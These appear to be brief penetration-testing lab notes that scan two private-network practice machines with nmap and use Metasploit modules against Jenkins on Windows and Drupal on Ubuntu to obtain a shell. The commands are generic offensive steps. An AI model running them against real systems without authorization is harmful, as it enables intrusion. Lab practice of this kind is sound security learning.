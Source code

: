 
### Exploiting a Windows Machine - My notes:

```
sudo nmap -sS -sV -O -p- 192.168.56.3 # port scan, shows port 8484 open amoung many others
sudo nmap -sT -Pn -A 192.168.56.3 -p 8484 -sC # shows Jenkins 
search jenkins type:exploit platform:windows rank:excellent
use 2
show options

```



### Exploiting an Ubuntu Machine

```
nmap -sT -A 192.168.1.101
search type:exploit platform:unix rank:excellent drupal
use 0
set RHOSTS 192.168.1.101
show options
exploit

# if the exploit is successful then can use the shell
ls
```







win2k8: 192.168.56.3

ub1404: 172.28.128.3

